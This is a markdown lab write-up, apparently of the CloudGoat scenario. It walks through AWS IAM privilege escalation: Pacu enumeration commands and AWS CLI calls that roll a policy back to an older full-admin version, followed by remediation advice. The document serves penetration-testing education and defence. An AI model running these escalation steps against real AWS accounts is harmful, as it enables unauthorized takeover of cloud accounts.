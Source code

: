 ```yaml
---
title: "Privilege Escalation via iam:SetDefaultPolicyVersion (Rollback Attack)"
description: "Escalating AWS IAM privileges by reverting to an older, over-permissive policy version using iam:SetDefaultPolicyVersion."
date: 2025-06-02
tags: [aws, privilege-escalation, cloudgoat, iam, pentesting]
---
```


# 🚀 Privilege Escalation via `iam:SetDefaultPolicyVersion` (Rollback Attack)

## 📝 TL;DR

An IAM user with **`iam:SetDefaultPolicyVersion`** can escalate privileges by reverting a policy to a **previous version** that contains **over-permissive access** (e.g., `AdministratorAccess`).  
We identify such a version (`v3`), and simply run `set-default-policy-version` to take over the account.

---

We start with some credentials for an AWS IAM user. The keys have been redacted for obvious reasons:

```bash
aws configure --profile raynor
```

Once the credentials are set, I fire up Pacu to see what kind of access I have:

```jsx
Pacu (raynor:No Keys Set) > import_keys raynor
Imported keys as "imported-raynor"
```

Now time to enumerate:

```jsx
Pacu (raynor:imported-raynor) > run iam__enum_permissions
```

Then confirm identity and scope:

```jsx
Pacu (raynor:imported-raynor) > whoami
```

We're operating as an IAM user:

- **UserName:** `raynor-cgidum7opd03zq`
- **Account ID:** `727671863602`
- **Policy Attached:** `cg-raynor-policy-cgidum7opd03zq`

### ✅ We Have: `iam:SetDefaultPolicyVersion`

This single permission is a **golden ticket** for privilege escalation. Here’s why 👇

---

## 🔓 What is a Rollback Attack?

AWS IAM policies support **up to 5 versions**, but only **one version is active** at a time — the “default.”

If an older version contains **elevated permissions** (like `AdministratorAccess`), and still exists, we can simply **roll back** to it using:

```
iam:SetDefaultPolicyVersion
```

No need to create a new policy or edit anything — we just **activate** an older version.

---

## 🧠 Enumeration Phase

We dig deeper:

```jsx
Pacu > run iam__enum_users_roles_policies_groups
```

This returns:

- 4 Users
- 9 Roles
- 4 Policies
- 0 Groups

We use the AWS CLI to list policies:

```bash
aws iam list-policies --scope All --profile raynor
```

Locate the target:

```json
{
    "PolicyName": "cg-raynor-policy-cgidum7opd03zq",
    "Arn": "arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq",
    "DefaultVersionId": "v1",
    ...
}
```

Now we list the policy versions:

```bash
aws iam list-policy-versions --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq --profile raynor
```

We find 5 versions:

- **v1** (default) — Basic read-only + `SetDefaultPolicyVersion`
- **v2** — Full deny (unless coming from specific IPs)
- **v3** — ⭐ Full `Action: "*"` access (root-level access)
- **v4** — Conditional `iam:Get*` actions
- **v5** — Some S3 read permissions

---

## 🧨 The Escalation

The most permissive version is clearly `v3`, so we activate it:

```bash
aws iam set-default-policy-version   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --version-id v3   --profile raynor
```

Boom 💥 — the IAM policy now grants **full admin access** to the account.

---

## ✅ Confirm the Rollback Worked

```bash
aws iam get-policy   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --profile raynor
```

You should see:

```json
"DefaultVersionId": "v3"
```

That’s it. We’ve successfully escalated privileges in AWS by rolling back to a previously uploaded over-permissive policy using nothing more than `iam:SetDefaultPolicyVersion`.

---

## 🛡️ Remediation

- **Delete old IAM policy versions** that are no longer in use:
  ```bash
  aws iam delete-policy-version     --policy-arn <POLICY_ARN>     --version-id <VERSION_ID>
  ```

- **Restrict access** to `iam:SetDefaultPolicyVersion` to only trusted admin roles.

- **Enable CloudTrail monitoring** and create alerts for:
  - `iam:SetDefaultPolicyVersion`
  - `iam:CreatePolicyVersion`

- Consider **automated detection** for policies that contain:
  - `Action: "*"`
  - `Resource: "*"`
  - or any **inline policies** with overly broad permissions.

- Implement **least privilege** across all IAM roles and users — revisit periodically.
